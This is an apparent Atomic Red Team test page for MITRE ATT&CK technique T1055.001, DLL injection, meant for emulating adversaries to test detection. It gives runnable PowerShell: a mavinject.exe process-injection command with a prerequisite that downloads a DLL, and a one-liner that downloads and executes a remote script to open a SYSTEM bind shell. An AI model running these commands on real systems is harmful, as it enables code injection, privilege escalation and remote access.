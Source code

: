 # T1055.001 - Dynamic-link Library Injection (test)
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/001)
<blockquote>Adversaries may inject dynamic-link libraries (DLLs) into processes in order to evade process-based defenses as well as possibly elevate privileges. DLL injection is a method of executing arbitrary code in the address space of a separate live process.  

DLL injection is commonly performed by writing the path to a DLL in the virtual address space of the target process before loading the DLL by invoking a new thread. The write can be performed with native Windows API calls such as <code>VirtualAllocEx</code> and <code>WriteProcessMemory</code>, then invoked with <code>CreateRemoteThread</code> (which calls the <code>LoadLibrary</code> API responsible for loading the DLL). (Citation: Elastic Process Injection July 2017) 

Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue as well as the additional APIs to invoke execution (since these methods load and execute the files in memory by manually preforming the function of <code>LoadLibrary</code>).(Citation: Elastic HuntingNMemory June 2017)(Citation: Elastic Process Injection July 2017) 

Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via DLL injection may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Injection via mavinject.exe](#atomic-test-1---process-injection-via-mavinjectexe)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique](#atomic-test-2---winpwn---get-system-shell---bind-system-shell-using-usoclient-dll-load-technique)


<br/>

## Atomic Test #1 - Process Injection via mavinject.exe
Windows 10 Utility To Inject DLLS.

Upon successful execution, powershell.exe will download T1055.dll to disk. Powershell will then spawn mavinject.exe to perform process injection in T1055.dll.
With default arguments, expect to see a MessageBox, with notepad's icon in taskbar.

**Supported Platforms:** Windows


**auto_generated_guid:** 74496461-11a1-4982-b439-4d87a550d254





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_id | PID of input_arguments | Integer | (Start-Process notepad -PassThru).id|
| dll_payload | DLL to Inject | Path | PathToAtomicsFolder&#92;T1055.001&#92;src&#92;x64&#92;T1055.001.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$mypid = #{process_id}
mavinject $mypid /INJECTRUNNING #{dll_payload}
Stop-Process -processname notepad
```




#### Dependencies:  Run with `powershell`!
##### Description: Utility to inject must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique
Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 8b56f787-73d9-4f1d-87e8-d07e89cbc7f5






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/UsoDLL/Get-UsoClientDLLSystem.ps1')
```






<br/>
